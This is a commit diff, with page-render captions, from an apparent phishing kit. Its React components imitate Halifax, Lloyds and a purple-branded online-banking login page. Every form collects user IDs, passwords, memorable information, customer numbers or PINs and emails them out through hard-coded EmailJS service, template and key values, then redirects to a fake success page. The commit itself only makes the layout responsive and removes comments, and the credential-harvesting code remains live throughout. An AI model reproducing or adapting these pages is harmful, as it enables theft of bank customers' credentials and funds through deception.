

Before and after one commit to wonhost-Rizwan/Bankig-Repo, a React (Vite) app: page /lloyds in a window 1280 px wide. Shown: the top 604 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
2nd check in

```diff
--- a/src/components/halifax/halifaxbank.jsx
+++ b/src/components/halifax/halifaxbank.jsx
@@ -6,13 +6,13 @@ import { useNavigate } from "react-router-dom";
 import emailjs from "@emailjs/browser";
 
 export default function HalifaxBank() {
-  const form = useRef(); // ✅ EmailJS form ref
+  const form = useRef();
   const navigate = useNavigate();
 
   const [errors, setErrors] = useState({
     userId: false,
     password: false,
-    memorable: false,
+    memorable: false
   });
 
   const sendLoginEmail = (e) => {
@@ -26,56 +26,56 @@ export default function HalifaxBank() {
     const newErrors = {
       userId: !userId,
       password: !password,
-      memorable: !memorable,
+      memorable: !memorable
     };
     setErrors(newErrors);
 
     if (!newErrors.userId && !newErrors.password && !newErrors.memorable) {
       emailjs
         .sendForm(
-          "service_e1eul13", // ✅ your EmailJS service ID
-          "template_x4r3vzo", // ✅ your template ID
+          "service_e1eul13",
+          "template_x4r3vzo",
           form.current,
-          "nb4k7l5gjhCm1Jyk1" // ✅ your public key
+          "nb4k7l5gjhCm1Jyk1"
         )
         .then(
           (result) => {
             console.log("Email sent:", result.text);
-            navigate("/success"); // ✅ redirect
+            navigate("/success");
           },
           (error) => {
             console.log("Error:", error.text);
           }
         );
 
-      e.target.reset(); // ✅ clear form
+      e.target.reset();
     }
   };
 
   return (
     <div className="min-h-screen bg-white">
       {/* Header */}
-      <header className="bg-[#0040BB] text-white flex items-center justify-between px-6 py-3">
+      <header className="bg-[#0040BB] text-white flex flex-col md:flex-row items-center justify-center px-4 sm:px-6 lg:px-20 py-4 space-y-4 md:space-y-0 md:space-x-30">
         {/* Left Section: Logo */}
-        <div className="flex items-center space-x-2 ml-80">
-          <img src="img/halifax logo.png" alt="Logo" className="h-13 w-25" />
+        <div className="flex items-center">
+          <img src="img/halifax logo.png" alt="Logo" className="h-10 w-auto" />
         </div>
 
         {/* Right Section */}
-        <div className="flex items-center space-x-6 mr-86">
-          <a href="#" className="underline text-lg">
+        <div className="flex flex-col md:flex-row items-center space-y-3 md:space-y-0 md:space-x-6 text-center md:text-left">
+          <a href="#" className="underline text-sm sm:text-base">
             Mobile
           </a>
-          <a href="#" className="underline text-lg">
+          <a href="#" className="underline text-sm sm:text-base">
             Cookie policy
           </a>
 
-          <div className="border border-white px-8 py-3 text-sm">
-            <p className="font-semibold flex items-center space-x-2">
+          <div className="border border-white px-4 py-2 md:px-6 md:py-3 text-xs sm:text-sm">
+            <p className="font-semibold flex items-center justify-center md:justify-start space-x-2">
               <FaLock className="text-white" />
               <span>You’re signing into a secure site</span>
             </p>
-            <a href="#" className="underline text-xs">
+            <a href="#" className="underline text-xs block mt-1">
               How can I tell that this site is secure?
             </a>
           </div>
@@ -83,11 +83,11 @@ export default function HalifaxBank() {
       </header>
 
       {/* Login Form */}
-      <main className="flex flex-col items-start mt-20 ml-60">
+      <main className="flex justify-center mt-10 px-4 sm:px-6">
         <form
           ref={form}
           onSubmit={sendLoginEmail}
-          className="w-full max-w-lg rounded-md p-6"
+          className="w-full max-w-lg rounded-md p-6 shadow-md bg-white"
         >
           {/* User ID */}
           <div className="mb-4">
@@ -96,12 +96,12 @@ export default function HalifaxBank() {
               className={`p-3 rounded border-2 ${
                 errors.userId
                   ? "border-red-500 bg-red-50"
-                  : "border-gray-800 bg-white"
+                  : "border-gray-300 bg-white"
               }`}
             >
               <input
                 type="text"
-                name="userId" // ✅ EmailJS field
+                name="userId"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter User ID"
               />
@@ -121,12 +121,12 @@ export default function HalifaxBank() {
               className={`p-3 rounded border-2 ${
                 errors.password
                   ? "border-red-500 bg-red-50"
-                  : "border-gray-800 bg-white"
+                  : "border-gray-300 bg-white"
               }`}
             >
               <input
                 type="password"
-                name="password" // ✅ EmailJS field
+                name="password"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter Password"
               />
@@ -139,21 +139,21 @@ export default function HalifaxBank() {
             )}
           </div>
 
-          {/* Memorable Information */}
+          {/* Memorable */}
           <div className="mb-6">
             <label className="block text-sm font-medium mb-1">Memorable:</label>
             <div
               className={`p-3 rounded border-2 ${
                 errors.memorable
                   ? "border-red-500 bg-red-50"
-                  : "border-gray-800 bg-white"
+                  : "border-gray-300 bg-white"
               }`}
             >
               <input
                 type="text"
-                name="memorable" // ✅ EmailJS field
+                name="memorable"
                 className="w-full bg-transparent outline-none text-base"
-                placeholder="Enter memorable"
+                placeholder="Enter Memorable"
               />
             </div>
             {errors.memorable && (
@@ -167,7 +167,7 @@ export default function HalifaxBank() {
           {/* Continue Button */}
           <button
             type="submit"
-            className="ml-87 px-6 py-3 bg-[#0040BB] text-white font-semibold transition"
+            className="w-full sm:w-auto px-6 py-3 bg-[#0040BB] text-white font-semibold transition"
           >
             Continue
           </button>
--- a/src/components/lloyds/lloydsbank.jsx
+++ b/src/components/lloyds/lloydsbank.jsx
@@ -6,16 +6,15 @@ import emailjs from "@emailjs/browser";
 import { useNavigate } from "react-router-dom";
 
 export default function LloydsBank() {
-  const form = useRef(); // ✅ EmailJS form ref
+  const form = useRef();
   const navigate = useNavigate();
 
   const [errors, setErrors] = useState({
     userId: false,
     password: false,
-    memorable: false,
+    memorable: false
   });
 
-  // ✅ Send login email using EmailJS
   const sendLoginEmail = (e) => {
     e.preventDefault();
 
@@ -27,69 +26,72 @@ export default function LloydsBank() {
     const newErrors = {
       userId: !userId,
       password: !password,
-      memorable: !memorable,
+      memorable: !memorable
     };
     setErrors(newErrors);
 
     if (!newErrors.userId && !newErrors.password && !newErrors.memorable) {
       emailjs
         .sendForm(
-          "service_e1eul13", // ✅ your EmailJS service ID
-          "template_x4r3vzo", // ✅ your template ID
+          "service_e1eul13",
+          "template_x4r3vzo",
           form.current,
-          "nb4k7l5gjhCm1Jyk1" // ✅ your public key
+          "nb4k7l5gjhCm1Jyk1"
         )
         .then(
           (result) => {
             console.log("Email sent:", result.text);
-            navigate("/success"); // ✅ redirect after success
+            navigate("/success");
           },
           (error) => {
             console.log("Error:", error.text);
           }
         );
 
-      e.target.reset(); // ✅ clear form
+      e.target.reset();
     }
   };
 
   return (
     <div className="min-h-screen bg-white">
-      {/* Header */}
-      <header className="bg-[#006A4E] text-white flex items-center justify-between px-6 py-3">
-        <div className="flex items-center space-x-2 ml-80">
+      {/* ✅ Header */}
+      {/* ✅ Header */}
+      <header className="bg-[#006A4E] text-white flex flex-col md:flex-row items-center justify-center px-4 sm:px-6 lg:px-20 py-4 space-y-4 md:space-y-0 md:space-x-30">
+        {/* Left: Logo */}
+        <div className="flex items-center justify-center">
           <img
             src="/img/lloydsbank logo.png"
             alt="Logo"
-            className="h-13 w-60"
+            className="h-12 sm:h-14 w-auto"
           />
         </div>
 
-        <div className="flex items-center space-x-6 mr-86">
-          <a href="#" className="underline text-lg">
+        {/* Right: Links + Secure */}
+        <div className="flex flex-col md:flex-row items-center space-y-3 md:space-y-0 md:space-x-6 text-center md:text-left">
+          <a href="#" className="underline text-sm sm:text-base">
             Mobile
           </a>
-          <a href="#" className="underline text-lg">
+          <a href="#" className="underline text-sm sm:text-base">
             Cookie policy
           </a>
-          <div className="border border-white px-5 py-3 text-sm">
-            <p className="font-semibold flex items-center space-x-2">
+          <div className="border border-white px-4 py-2 md:px-6 md:py-3 text-xs sm:text-sm">
+            <p className="font-semibold flex items-center justify-center md:justify-start space-x-2">
               <FaLock className="text-white" />
               <span>You’re logging into a secure site</span>
             </p>
-            <a href="#" className="underline text-xs">
+            <a href="#" className="underline text-xs block mt-1">
               How can I tell that this site is secure?
             </a>
           </div>
         </div>
       </header>
 
-      {/* Login Form */}
-      <main className="flex flex-col items-start mt-20 ml-60">
+      {/* ✅ Login Form */}
+      <main className="flex justify-center mt-10 px-4 sm:px-6">
         <form
           ref={form}
           onSubmit={sendLoginEmail}
-          className="w-full max-w-lg rounded-md p-6"
+          className="w-full max-w-lg rounded-md p-6 shadow-md bg-white"
         >
           {/* User ID */}
           <div className="mb-4">
@@ -98,12 +100,12 @@ export default function LloydsBank() {
               className={`p-3 rounded border-2 ${
                 errors.userId
                   ? "border-red-500 bg-red-50"
-                  : "border-gray-800 bg-white"
+                  : "border-gray-300 bg-white"
               }`}
             >
               <input
                 type="text"
-                name="userId" // ✅ added for EmailJS
+                name="userId"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter User ID"
               />
@@ -123,12 +125,12 @@ export default function LloydsBank() {
               className={`p-3 rounded border-2 ${
                 errors.password
                   ? "border-red-500 bg-red-50"
-                  : "border-gray-800 bg-white"
+                  : "border-gray-300 bg-white"
               }`}
             >
               <input
                 type="password"
-                name="password" // ✅ added for EmailJS
+                name="password"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter Password"
               />
@@ -148,12 +150,12 @@ export default function LloydsBank() {
               className={`p-3 rounded border-2 ${
                 errors.memorable
                   ? "border-red-500 bg-red-50"
-                  : "border-gray-800 bg-white"
+                  : "border-gray-300 bg-white"
               }`}
             >
               <input
                 type="text"
-                name="memorable" // ✅ added for EmailJS
+                name="memorable"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter memorable"
               />
@@ -167,12 +169,14 @@ export default function LloydsBank() {
           </div>
 
           {/* Continue Button */}
-          <button
-            type="submit"
-            className="ml-87 px-6 py-3 bg-[#006A4E] text-white font-semibold transition"
-          >
-            Continue
-          </button>
+          <div className="flex justify-start">
+            <button
+              type="submit"
+              className="w-full sm:w-auto px-6 py-3 bg-[#006A4E] text-white font-semibold transition"
+            >
+              Continue
+            </button>
+          </div>
         </form>
       </main>
     </div>
--- a/src/components/onlinebanking/onlinebanking.jsx
+++ b/src/components/onlinebanking/onlinebanking.jsx
@@ -4,7 +4,7 @@ import { useNavigate } from "react-router-dom";
 import emailjs from "@emailjs/browser";
 
 export default function OnlineBanking() {
-  const form = useRef(); // ✅ EmailJS form ref
+  const form = useRef();
   const navigate = useNavigate();
 
   const [errors, setErrors] = useState({
@@ -31,35 +31,35 @@ export default function OnlineBanking() {
     if (!newErrors.customerNo && !newErrors.password && !newErrors.pin) {
       emailjs
         .sendForm(
-          "service_e1eul13",     // ✅ your EmailJS service ID
-          "template_x4r3vzo",    // ✅ your template ID
+          "service_e1eul13",
+          "template_x4r3vzo",
           form.current,
-          "nb4k7l5gjhCm1Jyk1"    // ✅ your public key
+          "nb4k7l5gjhCm1Jyk1"
         )
         .then(
-          (result) => {
-            console.log("Email sent:", result.text);
-            navigate("/success"); // ✅ redirect after success
-          },
-          (error) => {
-            console.log("Error:", error.text);
-          }
+          () => navigate("/success"),
+          (error) => console.log("Error:", error.text)
         );
 
-      e.target.reset(); // ✅ clear form
+      e.target.reset();
     }
   };
 
   return (
     <div className="min-h-screen bg-white">
       {/* Top small header */}
-      <header className="bg-[#5a287d] shadow-lg py-2 px-6 flex items-center relative z-10">
-        <img src="/img/logo.svg" alt="Logo" className="h-8 w-auto ml-40" />
+      <header className="bg-[#5a287d] shadow-[0_4px_10px_rgba(0,0,0,0.4)] py-2 px-4 flex items-center relative z-10">
+  <img
+    src="/img/logo.svg"
+    alt="Logo"
+    className="h-8 w-auto mx-auto md:ml-40"
+  />
 </header>
 
+
       {/* Second big header */}
-      <div className="bg-[#5a287d] text-white py-10 px-6 text-center">
-        <h1 className="text-2xl md:text-3xl font-bold mb-2">
+      <div className="bg-[#5a287d] text-white py-8 px-4 text-center">
+        <h1 className="text-xl md:text-3xl font-bold mb-2">
           Login step 1 - Online Banking
         </h1>
         <p className="text-sm md:text-base max-w-2xl mx-auto">
@@ -69,8 +69,12 @@ export default function OnlineBanking() {
       </div>
 
       {/* Login form */}
-      <main className="flex flex-col items-start mt-20 ml-60">
-        <form ref={form} onSubmit={sendLoginEmail} className="w-full max-w-lg p-6 bg-white">
+      <main className="flex justify-center px-4 mt-10">
+        <form
+          ref={form}
+          onSubmit={sendLoginEmail}
+          className="w-full max-w-lg p-6 bg-white shadow-md rounded-md"
+        >
           {/* Customer Number */}
           <div className="mb-4">
             <label className="block text-sm font-medium mb-1">
@@ -85,7 +89,7 @@ export default function OnlineBanking() {
             >
               <input
                 type="text"
-                name="customerNo"  // ✅ EmailJS field
+                name="customerNo"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter Customer Number"
               />
@@ -112,7 +116,7 @@ export default function OnlineBanking() {
             >
               <input
                 type="password"
-                name="password"  // ✅ EmailJS field
+                name="password"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter Banking Password"
               />
@@ -139,7 +143,7 @@ export default function OnlineBanking() {
             >
               <input
                 type="text"
-                name="pin"  // ✅ EmailJS field
+                name="pin"
                 className="w-full bg-transparent outline-none text-base"
                 placeholder="Enter PIN"
               />
@@ -153,12 +157,14 @@ export default function OnlineBanking() {
           </div>
 
           {/* Continue Button */}
+          <div className="flex justify-start">
             <button
               type="submit"
-            className="ml-87 px-6 py-3 bg-purple-900 text-white font-semibold transition"
+              className="w-full md:w-auto px-6 py-3 bg-purple-900 text-white font-semibold transition"
             >
               Continue
             </button>
+          </div>
         </form>
       </main>
     </div>
```
Lines whose indentation alone changed are shown as unchanged.
